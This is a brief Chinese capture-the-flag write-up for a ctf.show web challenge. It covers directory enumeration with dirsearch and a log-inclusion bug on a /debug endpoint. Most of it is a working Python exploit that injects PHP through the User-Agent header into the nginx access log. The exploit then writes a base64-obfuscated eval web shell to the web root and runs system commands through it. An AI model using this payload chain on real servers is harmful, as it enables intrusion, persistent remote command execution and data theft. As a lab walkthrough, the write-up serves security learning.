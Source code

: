 dirsearch 找 web 上下文

```bash
python dirsearch.py -w Web-Content/directory-list-lowercase-2.3-medium.txt -u http://5ff17dc3-3332-4a55-9f00-4e2ccd9f09b4.challenge.ctf.show/
```

 发现

```
/install
/debug
```

fuzz 参数后，发现可以包含日志

<img src=".\图片\Snipaste_2023-08-08_21-00-11.png" alt="Snipaste_2023-08-08_21-00-11" style="zoom:67%;" />

尝试 UA 头写 shell

这里 放一个 python 脚本，同时用了一些免杀技术

```python
import requests
import base64
url="http://5ff17dc3-3332-4a55-9f00-4e2ccd9f09b4.challenge.ctf.show/"
url2="http://5ff17dc3-3332-4a55-9f00-4e2ccd9f09b4.challenge.ctf.show/debug/?file=/var/log/nginx/access.log"
cmd=b"<?php eval($_POST[1]);?>"
cmd=base64.b64encode(cmd).decode()
headers={
	'User-Agent':'''<?php system('echo {0}|base64 -d  > /var/www/html/b.php');?>'''.format(cmd)
}
print(headers)
requests.get(url=url,headers=headers)
requests.get(url2)
print(requests.post(url+'b.php',data={'1':'system("cat alsckdfy/check.php");'}).text)
```

